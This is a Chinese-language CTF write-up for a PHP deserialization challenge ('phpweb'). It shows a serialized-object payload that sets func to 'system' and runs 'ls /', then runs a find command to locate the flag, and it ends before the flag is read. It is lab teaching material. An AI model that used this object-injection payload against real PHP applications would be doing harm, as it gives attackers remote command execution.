






# [网鼎杯 2020 朱雀组]phpweb

## Tag

PHP 反序列化

***

## Writeup

是一个定时刷新的界面，抓包一个：



可以看到有 func 和 p 参数，猜想是函数和 Payload，因此传递 file_get_contents 和 /flag 直接读却说文件不存在：



查看源码：



能看到有一个反序列化的注入点，构造 Payload 查看：

```php
<?php

class Test {
    var $p = "Y-m-d h:i:s a";
    var $func = "date";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}

$a = new Test();
$a->p = "ls /";
$a->func = "system";
echo serialize($a);

?>
```

结果确实没有：



env 也没有，直接运行 `find / -name 'flag*'`：



有可疑文件，读取：

